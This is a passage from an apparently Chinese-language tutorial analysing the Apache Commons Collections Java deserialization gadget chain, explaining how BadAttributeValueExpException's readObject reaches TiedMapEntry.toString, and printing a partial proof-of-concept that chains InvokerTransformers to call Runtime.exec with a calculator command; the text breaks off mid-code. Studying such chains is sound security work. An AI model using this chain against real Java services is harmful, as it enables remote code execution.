 toString方法与php中的`__toString`方法类似，在进行字符串拼接或者手动把某个类转换为字符串的时候会被调用，所以，现在我们找找把TiedMapEntry的对象当做字符串处理的地方，找到了BadAttributeValueExpException的readObject方法中有相关调用：

```java
    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField gf = ois.readFields();
        Object valObj = gf.get("val", null);

        if (valObj == null) {
            val = null;
        } else if (valObj instanceof String) {
            val= valObj;
        } else if (System.getSecurityManager() == null
                || valObj instanceof Long
                || valObj instanceof Integer
                || valObj instanceof Float
                || valObj instanceof Double
                || valObj instanceof Byte
                || valObj instanceof Short
                || valObj instanceof Boolean) {
            val = valObj.toString();
        } else { // the serialized object is from a version without JDK-8019292 fix
            val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
        }
    }
```

可以看到第三个if分支里调用了`valObj.toString()`,而`valObj=gf.get("val", null)`,这里其实就是读取传过来对象的`val`属性值，所以，只要我们控制BadAttributeValueExpException对象的val属性的值为我们精心构造的TiedMapEntry对象就行。所以，就有了下面的poc:

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class POC6 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers_exec = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"gnome-calculator"})
        };

        Transformer chain = new ChainedTransformer(transformers_exec);

        HashMap innerMap = new HashMap();
        innerMap.put("value","axin");

        Map lazyMap = LazyMap.decorate(innerMap,chain);
```